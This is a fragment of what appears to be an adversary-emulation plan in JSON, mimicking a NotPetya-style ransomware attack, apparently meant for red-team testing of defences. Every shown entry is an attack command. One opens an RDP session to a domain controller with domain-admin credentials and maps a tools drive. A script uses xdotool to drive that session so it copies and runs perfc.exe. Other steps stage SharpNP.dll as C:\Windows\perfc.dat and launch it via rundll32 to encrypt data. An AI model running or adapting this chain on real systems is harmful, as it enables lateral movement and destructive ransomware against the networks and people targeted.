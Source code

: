 ```json
      "commands": {
        "proc": "exec-background xfreerdp +clipboard /u:WORKGROUP\\\\#{domain.admin.name} /p:\"#{domain.admin.password}\" /v:#{dc.target.host} /drive:X,./sw_tools /cert-ignore\n"
      },
      "privilege": "Unknown",
      "tactic": "lateral-movement",
      "technique": "Remote Services: Remote Desktop Protocol",
      "attack_id": "T1021.001"
    },
    {
      "ability_id": "58cf78ef-e777-4de8-aeaa-8cc8349be6f7",
      "platform": "linux",
      "commands": {
        "sh": "sleep 30;\nrdp_pid=$(pgrep -f \"xfreerdp.*/v:#{dc.target.host}\");\nrdp_window=$(xdotool search --pid \"$rdp_pid\");\nxdotool windowactivate --sync \"$rdp_window\" key Super_L;\nsleep 5; xdotool windowactivate --sync \"$rdp_window\" type --delay 200 \"powershell.exe\";\nsleep 5; xdotool windowactivate --sync \"$rdp_window\" key --clearmodifiers --delay 200 Control_L+Shift_L+Return;\nsleep 10; xdotool windowactivate --sync \"$rdp_window\" key Left;\nsleep 3; xdotool windowactivate --sync \"$rdp_window\" key Return;\nsleep 15; xdotool windowactivate --sync \"$rdp_window\" type --delay 200 'copy \\\\TSCLIENT\\X\\perfc.exe .\\perfc.exe';\nsleep 3; xdotool windowactivate --sync \"$rdp_window\" key Return;\nsleep 3; xdotool windowactivate --sync \"$rdp_window\" type --delay 200 '.\\perfc.exe';\nsleep 3; xdotool windowactivate --sync \"$rdp_window\" key Return;\nsleep 30;\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "ba30987a-efc8-46a6-b0ec-94f4cc53dbff",
      "platform": "windows",
      "commands": {
        "psh": "copy \\\\TSCLIENT\\X\\SharpNP.dll C:\\Windows\\perfc.dat;\ndir C:\\Windows\\perfc.dat;\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "9a39f75e-215d-4ef5-b505-ce81be74d58f",
      "platform": "windows",
      "commands": {
        "psh": "rundll32.exe C:\\Windows\\perfc.dat,\"#1\"\n"
      },
      "privilege": "Unknown",
      "tactic": "impact",
      "technique": "Data Encrypted for Impact",
      "attack_id": "T1486"
    },
    {
      "ability_id": "a86485c0-772d-4159-aa6f-5c2a9bb13ac8",
      "platform": "linux",
      "commands": {
        "proc": "pkill xfreerdp\n"
      },
      "privilege": "Unknown",
      "tactic": "lateral-movement",
      "technique": "Remote Services: Remote Desktop Protocol",
      "attack_id": "T1021.001"
    }
  ]
```